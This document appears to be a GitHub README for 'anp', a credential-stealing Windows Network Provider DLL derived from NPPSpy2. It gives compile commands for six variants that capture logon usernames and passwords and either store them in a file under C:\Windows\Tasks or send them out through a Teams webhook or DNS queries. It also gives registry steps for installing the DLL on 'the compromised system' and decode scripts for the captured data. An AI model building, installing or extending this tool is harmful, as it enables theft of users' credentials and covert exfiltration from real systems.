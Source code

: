 # anp

These are tests to create Network Providers based on [NPPSpy2](https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy2) by [gtworek](https://github.com/gtworek). All credit goes to the original author - I'm simply adding some functionality to explore what works best, but I thought it could be interesting for someone so I made it public.

I will use Base64-encoding or AES-encryption in all examples with the following JSON-like structure to store the information: 

```json
{"timestamp":"TIMESTAMP","operation":"OPERATION","domain":"DOMAIN","username":"USERNAME","password":"PASSWORD"}
```


<br>

## 1. Store in a text file + Base64-encoding

The default path is "C:\Windows\Task\default.txt" but you can customize it using the macro /DFILE_PATH:

```powershell
cl /LD /DFILE_PATH=\"C:\\\\Windows\\\\Tasks\\\\custom_path.txt\" 1_textfile_base64.c crypt32.lib /link /OUT:anp.dll
```

This creates a file with a content similar to:

```bash
eyJ0aW1lc3RhbXAiOiIyMDI1LTA0LTE0IDEwOjI4OjM2Iiwib3BlcmF0aW9uIjoiUFdEX1VQREFURV9PTEQiLCJkb21haW4iOiJERVNLVE9QLTBONkc2OTYiLCJ1c2VybmFtZSI6InJpY2FyZG8iLCJwYXNzd29yZCI6InFxIn0=
eyJ0aW1lc3RhbXAiOiIyMDI1LTA0LTE0IDEwOjI4OjM2Iiwib3BlcmF0aW9uIjoiUFdEX1VQREFURV9ORVciLCJkb21haW4iOiJERVNLVE9QLTBONkc2OTYiLCJ1c2VybmFtZSI6InJpY2FyZG8iLCJwYXNzd29yZCI6InEifQ==
```

Which decoded is:

```json
{"timestamp":"2025-04-14 10:28:36","operation":"PWD_UPDATE_OLD","domain":"DESKTOP-0N6G696","username":"ricardo","password":"qq"}
{"timestamp":"2025-04-14 10:28:36","operation":"PWD_UPDATE_NEW","domain":"DESKTOP-0N6G696","username":"ricardo","password":"q"}
```

<br>

## 2. Store in a text file + AES-encryption

The default path is "C:\Windows\Task\default.txt" and the default AES password is "TEST1234", but you can customize it using the macros /DFILE_PATH and /DAES_PWD:

```powershell
cl /LD /DFILE_PATH=\"C:\\\\Windows\\\\Tasks\\\\custom_path.txt\" /DAES_PWD=\"TEST1234\" 2_textfile_aes.c crypt32.lib advapi32.lib /link /OUT:anp.dll
```

This creates a file with a content similar to:

```bash
gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv32TknPnleRUL8eUb4AtRjCOyN9P+tICa7t0BMQAE7FZt+Z+tGpq0unJOsvDQ2VGvcG1RzLL/QrMPUUYvIM1BcEmVPYI5/KZQpr5p+8dX2yrE40QEoN79OodAAflEbh0W
gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv0Euwo4lOajrIKowzxM2qflL7XE8KeenZ/7RHu2f7q0xnu/Cl9iGiwxWz9tkCZjD0BL5j9ysFRPla4tLGU2ThIlBeYQ9dVLGiKpZbtX8liXygU4A5o20iROUMR9Ajtojc
```

You can decrypt it using *decrypt_aes.py*:

```bash
python decrypt_aes.py gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv32TknPnleRUL8eUb4AtRjCOyN9P+tICa7t0BMQAE7FZt+Z+tGpq0unJOsvDQ2VGvcG1RzLL/QrMPUUYvIM1BcEmVPYI5/KZQpr5p+8dX2yrE40QEoN79OodAAflEbh0W
python decrypt_aes.py gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv0Euwo4lOajrIKowzxM2qflL7XE8KeenZ/7RHu2f7q0xnu/Cl9iGiwxWz9tkCZjD0BL5j9ysFRPla4tLGU2ThIlBeYQ9dVLGiKpZbtX8liXygU4A5o20iROUMR9Ajtojc
```

And you get:

```json
{"timestamp":"2025-04-14 11:20:18","operation":"PWD_UPDATE_OLD","domain":"DESKTOP-0N6G696","username":"ricardo","password":"qq"}
{"timestamp":"2025-04-14 11:20:18","operation":"PWD_UPDATE_NEW","domain":"DESKTOP-0N6G696","username":"ricardo","password":"q"}
```

<br>

## 3. Send to Teams webhook + Base64-encoding

There is not a default webhook url, you have to set the value using the macro /DWEBHOOK_URL:

```powershell
cl /LD /DWEBHOOK_URL=L\"https://...\" 3_webhook_base64.c crypt32.lib wininet.lib /link /OUT:anp.dll
```

The information is received in a similar way to option 1:

![imgteams1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_teams1.png)

<br>

## 4. Send to Teams webhook + AES-encryption

You have to set the webhook url value using the macro /DWEBHOOK_URL, the default AES password is "TEST1234" but you can customize it using /DAES_PWD:

```powershell
cl /LD /DWEBHOOK_URL=L\"https://...\" /DAES_PWD=\"TEST1234\" 4_webhook_aes.c crypt32.lib wininet.lib advapi32.lib /link /OUT:anp.dll
```

The information is received in a similar way to option 2:

![imgteams2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_teams2.png)


<br>

## 5. DNS exfiltration + Base64-encoding

This one is not ideal, as the maximum length for a subdomain is 63 characters so it requires multiple DNS queries. As a result, the logon process is delayed by a few seconds, making the slowdown noticeable in some cases.

There is not a default subdomain, you have to set the value using the macro /DSUBDOMAIN:

```powershell
cl /LD /DSUBDOMAIN=L\".SUBDOMAIN.DOMAIN.COM\" 5_dns_base64.c crypt32.lib /link /OUT:anp.dll
```

You can use [this repository](https://github.com/ricardojoserf/dns-exfiltration) for creating the necessary subdomains and the *dns_server.py* script to decode the received values.

```bash
python3 dns_server.py .SUBDOMAIN.DOMAIN.COM
```

![imgdns1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_dns1.png)

It also generates a log file with the subdomains and decoded values:

![imgdns2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_dns2.png)

<br>

## 6. DNS exfiltration + AES-encryption

You have to set the subdomain value using the macro /DSUBDOMAIN, the default AES password is "TEST1234" but you can customize it using /DAES_PWD:

```powershell
cl /LD /DSUBDOMAIN=L\".SUBDOMAIN.DOMAIN.COM\" /DAES_PWD=\"TEST1234\" 6_dns_aes.c crypt32.lib advapi32.lib /link /OUT:anp.dll
```

You can use the *dns_server.py* script again to receive resolved domains and store it in a file:

![imgdns3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_dns3.png)

And the *decrypt_aes.py* script to decrypt the values:

![imgdns4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_dns4.png)

<br>

--------------------

## Installation

You can follow the instructions in [NPPSpy](https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy) by [gtworek](https://github.com/gtworek), which can be summed up to:

- Copy the DLL to a path in the compromised system.

- Add a network provider name at the end of the "ProviderOrder" in `HKLM\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order`. For this example I will use "anp".

- Create a key with the format `HKLM\SYSTEM\CurrentControlSet\Services\<CHOSEN_NAME>\NetworkProvider`, for the example I will use `HKLM\SYSTEM\CurrentControlSet\Services\anp\NetworkProvider`.

  - Class = [REG_DWORD]2 - Always this value.

  - ProviderPath = [REG_EXPAND_SZ]"C:\Users\ricardo\Desktop\test.dll" - Path to the DLL.

  - Name = [REG_SZ]"anp" - The name you chose, in this case I will use "anp".
 
<br>

--------------------

## TO-DOs

- Implement more exfiltration techniques (PRs are welcome!)


<br>

--------------------

## References

- [NPPSpy2](https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy2) by [gtworek](https://github.com/gtworek) - Again, these are just adding other exfiltration to NPPSpy(2).
